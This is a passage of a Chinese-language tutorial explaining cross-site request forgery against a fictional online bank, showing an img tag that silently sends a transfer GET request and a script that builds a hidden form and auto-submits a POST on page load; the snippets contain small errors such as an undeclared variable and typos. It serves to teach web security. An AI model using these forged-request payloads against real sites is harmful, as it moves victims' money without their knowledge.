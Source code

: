 大部分的请求主要是 get 和 post       

我们先来看如何在用户不知道的情况下，如何偷偷发送一个 get 请求      

我们以一个例子来看      

---

假设有一个基于 Web 的网上银行的网址是 www.banker32.com       

它允许用户将自己的资金转到其他人账户上，当然在用户执行该操作之前要登陆该网银行。     

一旦用户登陆，服务器会返回一个会话 cookie ，它标识该用户已经通过了身份验证。      

汇款请求需要一个有效的会话 cookie 否则是不会处理的，而这个 cookie 在登陆状态是给了浏览器的。      

用户可以发送以下请求，来执行转账操作。     

```js
http://www.banker32.com/transder.php?to=3220&amount=500
```      
该请求通知服务器上的 transfer.php 程序执行转账操作，向账号 3220 转账 500 美元。     

---

ok, 如果是用户自己发请求当然没有问题。     

但是，若是攻击者在用户登录状态是时(身份验证的 cookie 是在浏览器这边的)，让用户访问一个精心设计的网页。      

那么，攻击者就可以在这个网站上发送转账请求。     

至于发送 get 请求其实很简单，只需要在网页里加一个 img 或者 iframe 或者 script 标签即可。     

如下：     

```html
<img src='http://www.banker32.com/transfer.php?to=3320&amount=500' alt=''>
```     
这样，解析到该标签时，就会自动发送请求，而用户是不知道的。而由于有之前的 cookie 作为验证，服务器的 transfer.php 会直接执行操作。      

### 针对 HTPP POST 请求的 CSRF 攻击

还是上面的例子，若服务器只支持 post 请求，那么通过 img 标签就不管用了，但是，还是有方法让用户不知道的情况下，发送post 请求。     

我们可以通过 script 脚本动态生成一个表单，来看看是怎么做的。     

```html
<script>
function post() {
    let fields += "<input type='hidden' name='to' value='3220'>";
    fields += "<input type='hidden' name='amount' value='500'>";
    let form = document.createElement('form');
    form.action = 'http://www.banker32.com/postaction.php';
    form.method = 'post';
    form.innerHTML = fields;
    document.body.appendChild(form);
    form.submit();
}

// 网页一加载完成就发起请求
window.onload = () => {
    post();
}
</script>
```      
